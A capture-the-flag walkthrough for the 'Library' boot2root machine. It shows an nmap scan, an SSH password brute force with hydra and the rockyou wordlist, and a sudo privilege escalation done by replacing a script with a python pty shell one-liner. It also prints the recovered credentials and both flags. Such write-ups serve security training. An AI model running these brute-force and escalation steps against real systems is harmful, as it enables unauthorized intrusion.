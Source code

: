 # Library

## Description

boot2root machine for FIT and bsides guatemala CTF

Read user.txt and root.txt

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web page

We can't get initial access to ssh service, so let's start with the web service. After taking a look at the webpage I saw a post with the name of the author, which can be a possible username: `meliodas`

<p align="center"><img src="./files/username.png"></p>

Then I looked up `robots.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Library/files]
└─$ curl -s "http://$IP/robots.txt"  
User-agent: rockyou 
Disallow: /
~~~

We can see the word "rockyou" which is probably refering to rockyou wordlist. I guessed that I might be able to brute-force the ssh service with the username we have and rockyou wordlist.

## Brute-forcing SSH

I used `hydra` to do the brute-force attack:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-10 03:58:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.236.52:22/
[STATUS] 175.08 tries/min, 178 tries in 00:01h, 14344222 to do in 1365:29h, 16 active
[22][ssh] host: 10.10.236.52   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
~~~

Geate! The username was valid, and we have the password too:
* Username: `meliodas`
* Password: `iloveyou1`

## User flag

Now we can use the creds (`meliodas;iloveyou1`) to connect to the machine via ssh. The user flag is in `meliodas`'s home directory:

~~~
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec
~~~

user.txt: `6d488cbb3f111d135722c33cb635f4ec`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
~~~

As you can see, we can run a python script (`/home/meliodas/bak.py`) using `python` with sudo and no password. The script is owned by root and we don't have write access:

~~~
meliodas@ubuntu:~$ ls -la bak.py 
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
~~~

But, it is located in our home directory, which means we can remove it. We can replace it with a python one-liner that spawns a TTY shell with the same name and when we run it with sudo, it will spawn a root shell. Let's do it:

~~~
meliodas@ubuntu:~$ rm bak.py 
rm: remove write-protected regular file 'bak.py'? y    
meliodas@ubuntu:~$ echo "import pty;pty.spawn('/bin/bash')" > bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt 
e8c8c6c256c35515d1d344ee0488c617
~~~

root.txt: `e8c8c6c256c35515d1d344ee0488c617`

# D0N3! ; )

Thanks to the creator!

Hope you had fun and learned something.

Have a g00d one! : )